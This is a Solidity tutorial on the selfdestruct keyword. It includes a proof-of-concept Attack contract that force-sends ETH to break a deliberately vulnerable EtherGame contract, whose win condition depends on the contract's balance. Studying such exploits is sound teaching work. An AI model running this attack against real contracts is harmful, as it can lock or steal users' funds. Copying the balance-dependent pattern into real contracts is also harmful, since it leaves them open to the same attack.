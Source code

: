 ```yaml
---
title: Self-destruct
---
```


_follow along with the video_

---

## Forever On-chain ... mostly

The next concept I want you to know is that of the `selfdestruct()` keyword in Solidity. In essence this keyword will destroy, or delete a contract.

## The Unique Characteristic of Selfdestruct

Why `selfdestruct` stands out lies in its exceptional behavior once a contract gets destroyed. Any Ethereum (or ETH) residing within the deleted contract gets automatically ‘pushed’ or ‘forced’ into any address that you specify.

Under normal circumstances a contract that doesn't contain a receive or fallback function (or some other payable function capable of receiving funds) cannot have ETH sent to it.

Only through the use of `selfdestruct` can you be permitted to push any Ethereum into such a contract.

So if ever you’re hunting for an exploit, or you have identified an attack where you need to force ETH into a contract, `selfdestruct` will be your instrument of choice.

## `selfdestruct` in Action

To get a clear understanding, let’s put these into practice. Starting with a code base from [Solidity by example](https://solidity-by-example.org/hacks/self-destruct/) - and then carrying it into Remix, we will be able to observe this concept directly in action.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

Looking closely at the above contracts, we can see that `EtherGame` requires `address(this).balance == targetAmount`. The expectation of the protocol is that any user can only deposit 1ETH and each deposit transaction is checked as a winner.

Can you think of how we'd break these invariants?

By leveraging `selfdestruct(payable(address(etherGame)));` on our `Attack` contract, we can force ETH to the `EtherGame` contract that isn't accounted for.

```js
if (balance == targetAmount) {
  winner = msg.sender;
}
```

By forcing enough ETH to `EtherGame` we can assure the above condition is never met and a winner is never decided!

## Conclusion

The `selfdestruct()` function is powerful. It's one of the only ways to force a contract to receive ETH that it doesn't want and in so doing exists as an attack vector for any protocol not prepared for it.
